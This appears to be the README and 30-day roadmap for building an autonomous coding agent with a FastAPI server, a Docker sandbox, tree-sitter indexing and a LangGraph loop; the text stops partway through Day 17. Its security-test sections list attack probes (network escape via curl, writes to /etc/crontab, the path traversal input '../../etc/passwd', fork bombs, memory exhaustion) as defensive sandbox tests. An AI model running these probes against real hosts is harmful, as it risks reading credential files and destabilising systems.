

# CodingAgent (Mini Devin)

> [!ABSTRACT]
> A production-grade autonomous coding agent built from scratch using FastAPI, LangGraph, Docker sandboxing, AST indexing, and semantic search. This is a serious 30-day engineering project designed to build deep, practical understanding of how AI-powered development tools work underneath high-level abstractions — with proven security, bounded failure modes, and observable operations.

---

## Project Vision

\`\`\`text
Tool Dispatch
    |
Reasoning Loop
    |
FastAPI Server
    |
Async Worker Queue
    |
Persistent Task Store
    |
Docker Sandbox
    |
Code Intelligence (AST + Embeddings)
    |
LangGraph Agent Loop
    |
Guardrails + Security
    |
Auth + Observability
    |
CI/CD + Productionization
\`\`\`

> [!NOTE]
> The goal is not to ship the fastest. The goal is to build every layer with production discipline — typed errors, bounded retries, security tests that prove safety, and observable operations at every stage.

---

## Learning Objectives

- [x] Build a typed tool dispatch system with structured error handling
- [x] Implement an LLM-powered reasoning loop with trajectory logging
- [x] Build a real-time [[FastAPI]] server with [[WebSockets]], task persistence, and graceful shutdown
- [ ] Implement async task processing with `asyncio.TaskGroup` and bounded queues
- [ ] Build a [[Docker]]-based sandbox with proven security (network, filesystem, resource isolation)
- [ ] Implement structural code intelligence using [[tree-sitter]] AST parsing
- [ ] Build semantic code search using embeddings and [[ChromaDB]]
- [ ] Design a [[LangGraph]] state machine with checkpoint persistence and context window management
- [ ] Implement bounded failure modes: retries, circuit breakers, token/cost budgets
- [ ] Build and test security guardrails: path traversal, dangerous commands, secrets scanning, prompt injection
- [ ] Add API authentication, rate limiting, and Prometheus-style observability
- [ ] Package the project professionally for a strong GitHub portfolio

---

## Final Feature Set

| Feature                                                                   | Status |
| ------------------------------------------------------------------------- | ------ |
| Tool dispatch with typed errors (`read_file`, `write_file`, `run_shell`)  | - [x]  |
| LLM reasoning loop with trajectory logging                                | - [x]  |
| FastAPI server (health, readiness, WebSocket, OpenAPI)                    | - [ ]  |
| Async worker with graceful SIGTERM shutdown                               | - [ ]  |
| Persistent task store (SQLAlchemy + Alembic)                              | - [ ]  |
| Docker sandbox with resource limits                                       | - [ ]  |
| Security tests: network escape, fs escape, fork bomb, OOM, path traversal | - [ ]  |
| tree-sitter AST indexer (Python target)                                   | - [ ]  |
| Semantic search via ChromaDB with hybrid fallback                         | - [ ]  |
| LangGraph agent loop with checkpoint persistence                          | - [ ]  |
| Bounded retries + circuit breaker + token/cost budget                     | - [ ]  |
| `apply_patch` with dry-run validation + auto re-index                     | - [ ]  |
| Guardrails: path traversal, dangerous cmds, secrets, prompt injection     | - [ ]  |
| API key auth + per-key rate limiting                                      | - [ ]  |
| Prometheus `/metrics` with p99 latency histogram                          | - [ ]  |
| CI pipeline: lint, type-check, tests, Docker build                        | - [ ]  |
| `docker-compose up` one-command deployment                                | - [ ]  |
| Eval suite with nightly CI and pass-rate tracking                         | - [ ]  |
| Architecture README with Mermaid diagram + demo recording                 | - [ ]  |

---

## Architecture Evolution

---

## 30-Day Roadmap Overview

| Phase | Days | Title |
|---|---|---|
| 1 | 1-7 | Foundation: Tools, Reasoning, Server, Persistence |
| 2 | 8-14 | Sandbox (Proven, Not Just Built) + Code Search |
| 3 | 15-21 | LangGraph Loop with Bounded Failure Modes |
| 4 | 22-28 | Hardening Sprint |
| 5 | 29-30 | Final Integration + Demo |

---

## Learning vs Production Standards

| Learning version | Production version |
|---|---|
| Guardrails added at the end | Guardrails proven by a test that tries to break them |
| In-memory task state | Persisted (SQLite/Postgres) -- crash-safe, resumable |
| Raw exceptions bubble up | Typed errors: `ToolError`, `ValidationError`, `TimeoutError` |
| No retry limit | Bounded retries + exponential backoff + circuit breaker |
| Open API, no auth | API-key/JWT auth + per-key rate limiting |
| No metrics | Prometheus-style metrics: duration, tokens, cost, pass/fail |
| `python main.py` | `docker-compose up` -- one command, full stack |
| No CI | GitHub Actions: lint, type-check, tests, image build on every PR |
| Sandbox trusted by design | Sandbox escape tests written as actual pytest tests |
| Single edit attempt | Auto re-index after patches to prevent index drift |

> [!IMPORTANT]
> Out of scope past Day 30: multi-tenant RBAC, Kubernetes, human-in-the-loop UI, gVisor/Firecracker.

---

## Phase 1 -- Foundation

### Day 1 -- Repo Scaffold + Core Tools

#### Goal
Set up the project foundation with strict tooling, typed configuration, and the first three tools with full error handling and tests.

#### Concepts

- [[Pydantic Settings]] -- typed, validated configuration from environment variables
- [[Structured Logging]] -- JSON-formatted logs with correlation IDs
- [[Tool Dispatch]] -- function-based tool invocation with input validation
- [[Typed Errors]] -- `ToolError` with error codes, not raw exceptions
- [[Pre-commit Hooks]] -- `ruff` linting + `mypy` type checking on every commit

#### Implementation

- [x] Initialize repo with `uv` or `poetry`, configure `pyproject.toml`
- [x] Set up pre-commit hooks: `ruff` + `mypy`
- [x] Implement `pydantic-settings` configuration (zero hardcoded secrets)
- [x] Implement structured JSON logging
- [x] Implement `read_file` tool with path validation and `ToolError` returns
- [x] Implement `write_file` tool with path validation and `ToolError` returns
- [x] Implement `run_shell` tool with command validation and `ToolError` returns
- [x] Write unit tests for all three tools including error paths

#### Experiment

Intentionally pass invalid paths and commands to each tool. Verify that every failure produces a structured `ToolError` with a meaningful error code and message -- never a raw traceback.

#### What to Observe

- What information does a `ToolError` need to be debuggable?
- What paths should be rejected by `read_file` and `write_file`?
- What commands should `run_shell` refuse to execute?

#### Questions

- [x] Why use typed error returns instead of exceptions for tool dispatch?
- [x] What is the advantage of `pydantic-settings` over raw `os.environ`?
- [x] Why is structured JSON logging preferred over plain text in production?

#### Tests

- [x] Unit test: `read_file` returns `ToolError` for nonexistent path
- [x] Unit test: `write_file` rejects path traversal (`../../etc/passwd`)
- [x] Unit test: `run_shell` returns structured output with exit code
- [x] Unit test: all tools return typed responses, not raw exceptions

#### Definition of Done

- [x] Repo compiles with `ruff` + `mypy` clean
- [x] All three tools have passing unit tests including error paths
- [x] Configuration loaded from environment via `pydantic-settings`
- [x] Structured JSON logging outputs to stdout

#### Git Commit

`feat: repo scaffold, typed config, core tools (read_file, write_file, run_shell) with ToolError`

---

### Day 2 -- LLM Reasoning Loop

#### Goal
Build the core reasoning loop: system prompt design, LLM tool selection, execution, and result feedback. Log reasoning trajectories for evaluation.

#### Concepts

- [[System Prompt Design]] -- instructing the LLM to use tools effectively
- [[Tool Dispatch Loop]] -- task -> LLM picks tool -> execute -> feed result back
- [[Reasoning Trajectory]] -- logged sequence of thoughts and actions for debugging
- [[Retry/Backoff]] -- exponential backoff for transient LLM API failures
- [[Token Tracking]] -- counting tokens and estimating cost per LLM call

#### Implementation

- [x] Design system prompt for tool-using agent behavior
- [x] Implement core loop: task description -> LLM selects tool -> dispatch -> feed result back
- [x] Log full reasoning trajectories (thought + tool call + result) for evaluation
- [x] Implement retry/backoff wrapper around LLM API calls
- [x] Implement token/cost tracker per call
- [x] Test on one real failing-test task

#### Experiment

Run the reasoning loop on a simple bug-fix task. Examine the trajectory log. Count how many tool calls it takes and how many tokens are consumed. Identify where the LLM makes poor decisions.

#### What to Observe

- How many round-trips does a simple bug fix require?
- Where does the LLM waste tokens on unnecessary tool calls?
- What happens when the LLM API returns a transient error?

#### Questions

- [ ] What makes a good system prompt for a tool-using agent?
- [ ] Why log reasoning trajectories instead of just final results?
- [ ] What is exponential backoff and why is it necessary for API calls?
- [ ] How do you estimate cost from token counts?

#### Tests

- [x] Unit test: tool dispatch with mocked LLM returns correct tool call
- [x] Unit test: retry wrapper retries on transient errors with backoff
- [x] Unit test: token tracker accumulates counts correctly

#### Definition of Done

- [x] Reasoning loop completes a simple task end-to-end
- [x] Trajectory logs capture every thought, tool call, and result
- [x] Retry/backoff handles transient API failures gracefully
- [x] Token/cost tracked and logged per call

#### Git Commit

`feat: LLM reasoning loop with trajectory logging, retry/backoff, token tracking`

---

### Day 3 -- FastAPI Server Skeleton

#### Goal
Build the FastAPI server with health endpoints, WebSocket streaming, and versioned event schemas.

#### Concepts

- [[FastAPI]] -- modern async Python web framework
- [[WebSockets]] -- bidirectional real-time communication
- [[Pydantic Models]] -- typed, versioned event schemas
- [[OpenAPI]] -- auto-generated API documentation at `/docs`
- [[Health Checks]] -- `/health` and `/readiness` endpoints

#### Implementation

- [x] Create FastAPI application with routers: `/health`, `/readiness`, `/tasks`, `/ws`
- [x] Configure OpenAPI docs at `/docs`
- [x] Implement WebSocket endpoint for streaming events
- [x] Define versioned Pydantic event schemas: `ThoughtEvent`, `ToolCallEvent`, `ToolOutputEvent`, `TaskCompleteEvent`, `ErrorEvent`
- [x] Wire WebSocket to emit events as they occur

#### Experiment

Connect to the WebSocket endpoint with a simple client. Send a task and observe the event stream. Verify that each event matches its Pydantic schema.

#### What to Observe

- What happens when a WebSocket client disconnects mid-stream?
- How does FastAPI handle concurrent WebSocket connections?
- What does the OpenAPI `/docs` page look like?

#### Questions

- [ ] Why use WebSockets instead of polling for real-time updates?
- [ ] What is the purpose of versioned event schemas?
- [ ] What is the difference between `/health` and `/readiness`?

#### Tests

- [x] Integration test: `/health` returns 200
- [x] Integration test: WebSocket connection receives events
- [x] Unit test: each event schema validates correctly

#### Definition of Done

- [x] FastAPI server starts and serves `/docs`
- [x] WebSocket endpoint streams typed events
- [x] Health and readiness endpoints respond correctly

#### Git Commit

`feat: FastAPI skeleton with WebSocket streaming, event schemas, health endpoints`

---

### Day 4 -- Async Worker Queue

#### Goal
Implement async task processing with bounded queues and graceful shutdown on SIGTERM.

#### Concepts

- [[asyncio.TaskGroup]] -- structured concurrency for managing worker tasks
- [[asyncio.Queue]] -- bounded async queue for task distribution
- [[Graceful Shutdown]] -- drain in-flight tasks on SIGTERM before exiting
- [[Correlation IDs]] -- UUID `task_id` threaded through every log line and event

#### Implementation

- [x] Implement `asyncio.TaskGroup` worker pool with `asyncio.Queue`
- [x] Implement graceful shutdown: catch SIGTERM, drain in-flight tasks, then exit
- [x] Thread UUID `task_id` through every log line and WebSocket event
- [x] Return 503 when queue is full

#### Experiment

Start the server, submit tasks until the queue fills, and verify that the 503 response is returned. Then send SIGTERM and verify that in-flight tasks complete before the server exits.

#### What to Observe

- What happens to a task that is mid-execution when SIGTERM arrives?
- How does the queue behave under backpressure?
- Are `task_id` values present in every log line?

#### Questions

- [ ] What is structured concurrency and why does `asyncio.TaskGroup` enforce it?
- [ ] Why return 503 instead of silently dropping tasks when the queue is full?
- [ ] What is the difference between SIGTERM and SIGKILL?

#### Tests

- [x] Unit test: queue-full returns 503
- [x] Integration test: SIGTERM triggers graceful drain of in-flight tasks
- [x] Unit test: every log line contains `task_id`

#### Definition of Done

- [x] Async worker processes tasks from the queue
- [x] Graceful shutdown drains in-flight tasks on SIGTERM
- [x] 503 returned when queue is full
- [x] `task_id` present in all logs and events

#### Git Commit

`feat: async worker queue with graceful shutdown, correlation IDs, backpressure`

---

### Day 5 -- Persistent Task Store

#### Goal
Persist task state to a database so tasks survive crashes and can be queried.

#### Concepts

- [[SQLAlchemy]] -- async ORM for Python
- [[Alembic]] -- database migration management
- [[Task State Machine]] -- PENDING -> RUNNING -> COMPLETED / FAILED
- [[Crash Recovery]] -- mark interrupted RUNNING tasks as FAILED on startup

#### Implementation

- [ ] Define `Task` model with SQLAlchemy async: id, status, result, timestamps, token counts
- [ ] Create initial Alembic migration
- [ ] Implement `GET /tasks/{id}` to fetch task by ID
- [ ] Implement `GET /tasks?status=...` to query tasks by status
- [ ] On startup, mark any interrupted RUNNING tasks as FAILED

#### Experiment

Submit a task, kill the server mid-execution, restart it. Verify that the interrupted task is marked as FAILED and can be queried.

#### What to Observe

- What task states are in the database after a crash?
- How does Alembic track migration history?
- What happens if two workers try to update the same task concurrently?

#### Questions

- [ ] Why use database persistence instead of in-memory state?
- [ ] What is the purpose of marking interrupted tasks as FAILED on startup?
- [ ] What isolation level should the database use for task updates?

#### Tests

- [ ] Unit test: `Task` model creates and queries correctly
- [ ] Integration test: interrupted RUNNING tasks marked FAILED on restart
- [ ] Integration test: `GET /tasks?status=COMPLETED` returns correct results

#### Definition of Done

- [ ] Task model persisted to database with Alembic migration
- [ ] Task query endpoints return correct results
- [ ] Crash recovery marks interrupted tasks as FAILED

#### Git Commit

`feat: persistent task store with SQLAlchemy, Alembic, crash recovery`

---

### Day 6 -- Minimal Frontend + WebSocket Integration Tests

#### Goal
Build a minimal frontend for observing agent behavior and write integration tests for the full WebSocket event flow.

#### Concepts

- [[Single Page Application]] -- minimal HTML/JS for event streaming
- [[WebSocket Client]] -- browser-side WebSocket consumption
- [[Integration Testing]] -- end-to-end test with `httpx` + `pytest-asyncio`

#### Implementation

- [ ] Build single-page HTML/JS with event stream pane and terminal pane
- [ ] Wire frontend to WebSocket endpoint for live event display
- [ ] Write WebSocket integration tests: submit task -> assert correct event sequence -> assert DB record matches
- [ ] Store token costs in DB for each completed task

#### Experiment

Open the frontend in a browser, submit a task, and watch the event stream in real time. Compare what the frontend shows with the raw WebSocket messages.

#### What to Observe

- Does the frontend correctly display all event types?
- What happens when the WebSocket disconnects and reconnects?
- Are token costs accurately stored in the database?

#### Questions

- [ ] What is the minimal viable frontend for debugging an agent?
- [ ] How do you test WebSocket flows in an automated test suite?

#### Tests

- [ ] Integration test: submit task via POST -> WebSocket streams events -> DB record matches
- [ ] Integration test: token costs stored in DB after task completion

#### Definition of Done

- [ ] Frontend displays live event stream from WebSocket
- [ ] Integration tests verify full event flow from submission to DB storage
- [ ] Token costs persisted per task

#### Git Commit

`feat: minimal frontend, WebSocket integration tests, token cost persistence`

---

### Day 7 -- End-to-End Server Integration

#### Goal
Wire the Day 2 reasoning loop into the Day 3-6 server. Verify the complete flow works end-to-end.

#### Concepts

- [[System Integration]] -- connecting independently tested components
- [[End-to-End Testing]] -- verifying the full pipeline from HTTP request to database record

#### Implementation

- [ ] Integrate the reasoning loop (Day 2) into the FastAPI server (Days 3-6)
- [ ] Run end-to-end integration test: POST task -> WebSocket streams events -> task completes -> DB record correct
- [ ] Verify token costs are stored in DB per task

#### Experiment

Submit a real bug-fix task through the API and observe it flow through every component: HTTP -> queue -> worker -> reasoning loop -> WebSocket events -> DB persistence.

#### What to Observe

- Where are the bottlenecks in the full pipeline?
- Do all components use the same `task_id` for correlation?
- Is the WebSocket event stream complete and ordered?

#### Questions

- [ ] What integration issues arise when combining async components?
- [ ] How do you debug a failure in a multi-component pipeline?

#### Tests

- [ ] End-to-end test: POST task -> WS streams events -> task completes -> DB record correct
- [ ] End-to-end test: token costs stored correctly

#### Definition of Done

- [ ] Full pipeline works: API -> queue -> reasoning loop -> events -> DB
- [ ] End-to-end integration test passes
- [ ] All Week 1 components connected and operational

#### Git Commit

`feat: end-to-end server integration, full pipeline wired and tested`

> [!TIP]
> Phase 1 checkpoint: typed config, structured logs, persisted task state, tested WebSocket flow, reasoning loop integrated.

---

## Phase 2 -- Sandbox (Proven, Not Just Built) + Code Search

### Day 8 -- Docker Workspace Manager

#### Goal
Build a Docker-based workspace manager that creates isolated environments for each task.

#### Concepts

- [[Docker SDK]] -- programmatic container management in Python
- [[Workspace Isolation]] -- one container per task with its own filesystem
- [[GitPython]] -- shallow cloning repositories into workspaces
- [[Typed Errors]] -- `WorkspaceError` wrapping all Docker failures

#### Implementation

- [ ] Implement `WorkspaceManager` with Docker SDK: `create(repo_url, commit_sha)`, `destroy()`, `get()`
- [ ] Implement GitPython shallow clone into workspace directory
- [ ] Wrap all Docker errors as typed `WorkspaceError` -- nothing raw leaks to the API layer

#### Experiment

Create a workspace, clone a small repo into it, list the files, then destroy it. Verify that no Docker artifacts remain after destruction.

#### What to Observe

- How long does workspace creation take (Docker pull + clone)?
- What Docker resources are created and do they all get cleaned up?
- What error does Docker SDK throw when the daemon is unavailable?

#### Questions

- [ ] Why use one container per task instead of a shared container?
- [ ] What is a shallow clone and why is it faster?
- [ ] Why wrap Docker errors in `WorkspaceError` instead of exposing them?

#### Tests

- [ ] Unit test: `create()` produces a running container with cloned repo
- [ ] Unit test: `destroy()` removes all container artifacts
- [ ] Unit test: Docker SDK errors are wrapped as `WorkspaceError`

#### Definition of Done

- [ ] `WorkspaceManager` creates and destroys workspaces cleanly
- [ ] GitPython shallow clone works inside containers
- [ ] All Docker errors wrapped as typed `WorkspaceError`

#### Git Commit

`feat: Docker WorkspaceManager with typed WorkspaceError, GitPython shallow clone`

---

### Day 9 -- Command Execution in Sandbox

#### Goal
Implement async command execution inside Docker containers with output capping and timeout enforcement.

#### Concepts

- [[Async Generators]] -- yielding output lines as they arrive
- [[Output Capping]] -- preventing runaway output from consuming memory
- [[Timeout Enforcement]] -- killing commands that exceed time limits
- [[Sentinel Values]] -- `TRUNCATED` and `TIMEOUT` markers in output stream

#### Implementation

- [ ] Implement `execute_command(workspace_id, cmd, timeout_s)` as an async generator
- [ ] Yield `CommandOutputLine` structs as output arrives
- [ ] Cap total output at 1MB -- emit `TRUNCATED` sentinel beyond that
- [ ] Kill command and emit `TIMEOUT` sentinel if `timeout_s` exceeded

#### Experiment

Run a command that produces 10MB of output. Verify that truncation occurs at 1MB with the `TRUNCATED` sentinel. Run a command that sleeps for 60 seconds with a 5-second timeout and verify the `TIMEOUT` sentinel.

#### What to Observe

- What happens to the container process when you send a kill signal?
- How much memory does 1MB of buffered output consume in the Python process?
- What is the latency between timeout expiry and actual process termination?

#### Questions

- [ ] Why use an async generator instead of collecting all output in memory?
- [ ] What is the difference between `SIGTERM` and `SIGKILL` for container processes?
- [ ] Why cap output at 1MB?

#### Tests

- [ ] Unit test: command output streamed as `CommandOutputLine` structs
- [ ] Unit test: output exceeding 1MB triggers `TRUNCATED` sentinel
- [ ] Unit test: command exceeding timeout triggers `TIMEOUT` sentinel

#### Definition of Done

- [ ] Command execution streams output as async generator
- [ ] Output capping works at 1MB
- [ ] Timeout enforcement kills command and emits sentinel

#### Git Commit

`feat: async command execution with output capping, timeout, sentinel markers`

---

### Day 10 -- Container Hardening

#### Goal
Lock down Docker containers with resource limits, read-only filesystems, network isolation, and non-root execution.

#### Concepts

- [[Container Security]] -- defense in depth for sandboxed execution
- [[Resource Limits]] -- memory, CPU, and process count caps
- [[Network Isolation]] -- `network_mode: none` to prevent egress
- [[Read-Only Filesystem]] -- writable only in `/workspace`
- [[Non-Root Execution]] -- running as unprivileged user inside container

#### Implementation

- [ ] Set `mem_limit` on containers (e.g. 512MB)
- [ ] Set `cpu_quota` to limit CPU usage
- [ ] Set `pids_limit=256` to prevent fork bombs
- [ ] Set filesystem to read-only except `/workspace`
- [ ] Disable network egress with `network_mode: none`
- [ ] Run container processes as non-root user

#### Experiment

Attempt to exceed each limit from inside a container. Try to allocate 1GB of memory, spawn 1000 processes, write to `/etc`, and `curl` an external URL. Verify that all are blocked.

#### What to Observe

- What error does the container produce when hitting `mem_limit`?
- How quickly does `pids_limit` kill a fork bomb?
- What happens when you try to write to a read-only filesystem?

#### Questions

- [ ] What is `pids_limit` and what attack does it prevent?
- [ ] Why set the filesystem to read-only except `/workspace`?
- [ ] What is the difference between `network_mode: none` and dropping network capabilities?

#### Tests

- [ ] Unit test: container respects `mem_limit`
- [ ] Unit test: container respects `pids_limit`
- [ ] Unit test: filesystem is read-only outside `/workspace`
- [ ] Unit test: network egress is disabled

#### Definition of Done

- [ ] All resource limits enforced on containers
- [ ] Network isolation prevents egress
- [ ] Non-root execution configured
- [ ] All hardening tests pass

#### Git Commit

`feat: container hardening with mem/cpu/pids limits, read-only fs, network isolation`

---

### Day 11 -- Security Tests (Proven, Not Assumed)

#### Goal
Write security tests that actively attempt to break the sandbox. The sandbox is not secure until these tests pass.

#### Concepts

- [[Security Testing]] -- testing what should NOT work, not just what should
- [[Attack Surface]] -- network escape, filesystem escape, resource exhaustion, path traversal
- [[Defense in Depth]] -- multiple layers of protection

#### Implementation

- [ ] Test network escape: `curl https://8.8.8.8` inside container -- must fail
- [ ] Test filesystem escape: `open('/etc/crontab', 'w')` inside container -- must get PermissionError
- [ ] Test fork bomb: must be killed by `pids_limit` within 5 seconds, host unaffected
- [ ] Test memory exhaustion: container OOM-killed, not the host
- [ ] Test path traversal: `path=../../etc/passwd` tool call -- must return `ToolError`

#### Experiment

Run all five attack scenarios from inside a container. For each one, verify that the attack fails, the container is isolated, and the host remains unaffected.

#### What to Observe

- How long does it take for `pids_limit` to kill a fork bomb?
- What is the OOM-kill behavior -- does the container restart or stay dead?
- Does path traversal get caught at the tool level or the filesystem level?

#### Questions

- [ ] Why is it critical to test what should NOT work, not just what should?
- [ ] What is defense in depth and how does it apply to sandbox security?
- [ ] What would happen if any of these security tests failed in production?

#### Tests

- [ ] Security test: network escape fails
- [ ] Security test: filesystem escape fails
- [ ] Security test: fork bomb killed within 5 seconds
- [ ] Security test: memory exhaustion contained to container
- [ ] Security test: path traversal returns `ToolError`

#### Definition of Done

- [ ] All five security tests pass
- [ ] Host remains unaffected during all attack scenarios
- [ ] Security tests are part of the CI suite

#### Git Commit

`feat: security tests proving sandbox isolation (network, fs, fork, OOM, traversal)`

---

### Day 12 -- tree-sitter AST Indexer

#### Goal
Build a structural code indexer using tree-sitter that extracts symbols, imports, and definitions from Python source files.

#### Concepts

- [[tree-sitter]] -- incremental parsing library for source code
- [[AST Indexing]] -- extracting structured information from abstract syntax trees
- [[Symbol Extraction]] -- class names, function names, arguments, line spans, docstrings
- [[File Structure]] -- module-level view of imports and definitions

#### Implementation

- [ ] Implement tree-sitter parser for Python source files
- [ ] Extract: file tree, module imports, class/function definitions (name, args, line span, docstring)
- [ ] Implement `get_symbol_definition(name)` lookup
- [ ] Implement `list_file_structure(path)` overview
- [ ] Test against a committed Python fixture repo

#### Experiment

Index a real Python project (e.g. a small FastAPI application). Query for specific function definitions and class structures. Compare the AST output with manual inspection.

#### What to Observe

- How long does indexing take for a 50-file project?
- What edge cases does tree-sitter handle that regex-based parsing misses?
- What happens with syntax errors in source files?

#### Questions

- [ ] Why use tree-sitter instead of Python's `ast` module?
- [ ] What is incremental parsing and why does it matter?
- [ ] How do you handle files with syntax errors?

#### Tests

- [ ] Unit test: extract function definitions with correct name, args, line span
- [ ] Unit test: extract class definitions with docstrings
- [ ] Unit test: `get_symbol_definition` returns correct result
- [ ] Unit test: `list_file_structure` returns module overview

#### Definition of Done

- [ ] tree-sitter indexes Python files correctly
- [ ] Symbol extraction captures classes, functions, imports
- [ ] Lookup and structure APIs work against fixture repo
- [ ] All tests pass

#### Git Commit

`feat: tree-sitter AST indexer for Python with symbol extraction and lookup`

> [!TIP]
> Buffer risk point: Allow extra time for tree-sitter grammar setup and extraction edge cases.

---

### Day 13 -- Semantic Search with Embeddings

#### Goal
Add embedding-based semantic search using ChromaDB, with hybrid search that prefers exact matches and falls back to semantic.

#### Concepts

- [[Embeddings]] -- vector representations of code for similarity search
- [[ChromaDB]] -- vector database for storing and querying embeddings
- [[Hybrid Search]] -- exact match first, semantic fallback
- [[Chunking]] -- splitting code into meaningful units for embedding

#### Implementation

- [ ] Chunk functions and classes from AST output into embedding units
- [ ] Embed chunks and store in ChromaDB
- [ ] Implement `semantic_search(query, top_k=5)` endpoint
- [ ] Implement hybrid search: exact match preferred, semantic fallback
- [ ] Log embedding cost per indexing run

#### Experiment

Index a project, then search for functionality using natural language queries (e.g. "function that handles authentication"). Compare hybrid search results with pure semantic search results.

#### What to Observe

- How accurate are semantic search results for code queries?
- What is the latency of a semantic search query?
- How much does embedding a 50-file project cost?

#### Questions

- [ ] Why chunk by AST units (functions/classes) instead of fixed-size windows?
- [ ] When does exact match outperform semantic search?
- [ ] What embedding model works best for code?

#### Tests

- [ ] Unit test: chunking produces correct units from AST
- [ ] Unit test: `semantic_search` returns relevant results
- [ ] Unit test: hybrid search prefers exact match over semantic

#### Definition of Done

- [ ] ChromaDB stores embeddings of indexed code
- [ ] Semantic search returns relevant results for natural language queries
- [ ] Hybrid search correctly prioritizes exact matches
- [ ] Embedding costs logged per run

#### Git Commit

`feat: semantic code search with ChromaDB, hybrid exact/semantic fallback`

---

### Day 14 -- Sandbox + Indexer Integration

#### Goal
Wire the sandbox and code indexer into the agent loop. Verify the full flow from task submission to code navigation to test execution.

#### Concepts

- [[System Integration]] -- connecting sandbox, indexer, and agent loop
- [[Agent Workflow]] -- workspace creation -> code indexing -> navigation -> execution -> result

#### Implementation

- [ ] Wire sandbox creation into the agent loop on task start
- [ ] Wire AST indexer to run on cloned workspace after creation
- [ ] Agent uses search tools to navigate codebase during reasoning
- [ ] Agent runs pytest inside sandbox and returns results
- [ ] All Day 11 security tests still pass after integration

#### Experiment

Submit a real bug-fix task through the full pipeline. Watch the agent create a workspace, index the code, search for relevant functions, make changes, and run tests.

#### What to Observe

- Does the agent use code search effectively to find relevant code?
- How long does the full pipeline take from task submission to test result?
- Do security tests still pass after adding indexer integration?

#### Questions

- [ ] What is the correct order of operations: clone, index, then reason?
- [ ] How do you ensure security tests remain valid after integration changes?

#### Tests

- [ ] Integration test: submit task -> workspace created -> code indexed -> agent navigates via search -> pytest runs in sandbox -> result returned
- [ ] Security tests: all Day 11 tests still pass

#### Definition of Done

- [ ] Full pipeline: task -> sandbox -> index -> search -> execute -> result
- [ ] Agent uses structural and semantic search during reasoning
- [ ] All security tests pass

#### Git Commit

`feat: sandbox + indexer integration, full agent pipeline wired and tested`

> [!TIP]
> Phase 2 checkpoint: sandbox with passing security tests, structural + semantic search working, full pipeline integrated.

---

## Phase 3 -- LangGraph Loop with Bounded Failure Modes

### Day 15 -- LangGraph State Machine + Context Management

#### Goal
Define the LangGraph agent state with typed schema, checkpoint persistence, and context window management for long-running tasks.

#### Concepts

- [[LangGraph]] -- graph-based agent orchestration framework
- [[Agent State]] -- typed schema for tracking task progress
- [[Checkpoint Persistence]] -- SQLite-backed state recovery
- [[Context Window Management]] -- sliding window / history trimming to prevent blowing LLM context limits
- [[Structured Output]] -- Pydantic-validated LLM responses

#### Implementation

- [ ] Define `AgentState` schema: `task_id`, `plan`, `current_step`, `tool_history`, `reflection_history`, `retry_count`, `status`
- [ ] Implement context window management: sliding window / history trimming for `tool_history` to prevent context limit overflow
- [ ] Implement Planning Node with structured-output Pydantic validation
- [ ] Implement retry-on-malformed-output (max 3 retries -> `failed` state)
- [ ] Set up SQLite-backed checkpoint persistence

#### Experiment

Run a task that requires many tool calls (10+). Observe how context window management trims history while preserving the most relevant information.

#### What to Observe

- At what point does `tool_history` exceed the LLM context window without trimming?
- Does checkpoint persistence correctly restore state after a restart?
- What happens when the LLM returns malformed structured output?

#### Questions

- [ ] What is the optimal strategy for trimming tool history -- FIFO, relevance-based, or summary-based?
- [ ] Why persist checkpoints to SQLite instead of keeping them in memory?
- [ ] What is structured output validation and why is it important for agent reliability?

#### Tests

- [ ] Unit test: `AgentState` schema validates correctly
- [ ] Unit test: context window trimming keeps history within limits
- [ ] Unit test: checkpoint persistence saves and restores state
- [ ] Unit test: malformed output triggers retry up to max, then `failed` state

#### Definition of Done

- [ ] LangGraph agent state defined with typed schema
- [ ] Context window management prevents context overflow
- [ ] Checkpoint persistence works with SQLite
- [ ] Planning node validates structured output with retry

#### Git Commit

`feat: LangGraph typed state, context window management, checkpoint persistence`

> [!TIP]
> Buffer risk point: Allow extra time if using LangGraph for the first time -- state schema + checkpointing setup can be tricky.

---

### Day 16 -- Execution Node

#### Goal
Implement the execution node that dispatches tool calls with schema validation and typed error handling.

#### Concepts

- [[Tool Schema Validation]] -- validating tool arguments before execution
- [[Structured Tool Calls]] -- `ToolCall(tool_name, args)` format
- [[Error Taxonomy]] -- typed `ToolError(tool_name, code, message)` for all failures
- [[Tool History]] -- recording all tool interactions in agent state

#### Implementation

- [ ] Implement Execution Node: LLM selects tool via `ToolCall(tool_name, args)` structured output
- [ ] Validate args against tool schema before running
- [ ] All errors populate `AgentState.last_error` as typed `ToolError(tool_name, code, message)` -- never swallowed
- [ ] Tool results stored in `tool_history`

#### Experiment

Intentionally send invalid tool arguments (wrong types, missing fields, out-of-range values). Verify that schema validation catches them before execution.

#### What to Observe

- What percentage of LLM tool calls have valid arguments on the first attempt?
- How does schema validation improve reliability compared to raw dispatch?
- What information does a `ToolError` need for the LLM to self-correct?

#### Questions

- [ ] Why validate tool arguments before execution instead of letting the tool fail?
- [ ] What is the difference between a validation error and an execution error?
- [ ] Why should errors never be swallowed in an agent loop?

#### Tests

- [ ] Unit test: valid tool call dispatches correctly
- [ ] Unit test: invalid args rejected with schema validation error
- [ ] Unit test: execution errors produce typed `ToolError` in state
- [ ] Unit test: tool results stored in `tool_history`

#### Definition of Done

- [ ] Execution node dispatches tool calls with schema validation
- [ ] All errors captured as typed `ToolError` in agent state
- [ ] Tool history records all interactions

#### Git Commit

`feat: execution node with schema validation, typed ToolError, tool history`

---

### Day 17 -- Reflection Node + Circuit Breaker

#### Goal
Implement the reflection node that parses test results, manages bounded retries with exponential backoff, and includes a circuit breaker for cascading failures.

#### Concepts

- [[Test Result Parsing]] -- structured extraction from pytest output
- [[Bounded Retries]] -- maximum retry count before failing
- [[Exponential Backoff]] -- `2^retry` seconds between attempts
- [[Circuit Breaker]] -- open circuit after N consecutive failures to prevent cascading damage

#### Implementation

- [ ] Parse pytest output into `TestResult(passed, failed, errors, summary)`
- [ ] Implement bounded retry: `retry_count >= MAX_RETRIES` -> `failed` state with readable failure report
- [ ] Implement exponential backoff (`2^retry` seconds) between retries
- [ ] Implement circuit breaker: 3 consecutive API errors -> open circuit, fail task with `CircuitOpenError`

#### Experiment

Run a task with a deliberately unfixable bug. Observe the retry behavior, backoff timing, and eventual failure report. Then simulate 3 consecutive API errors and verify the circuit breaker opens.

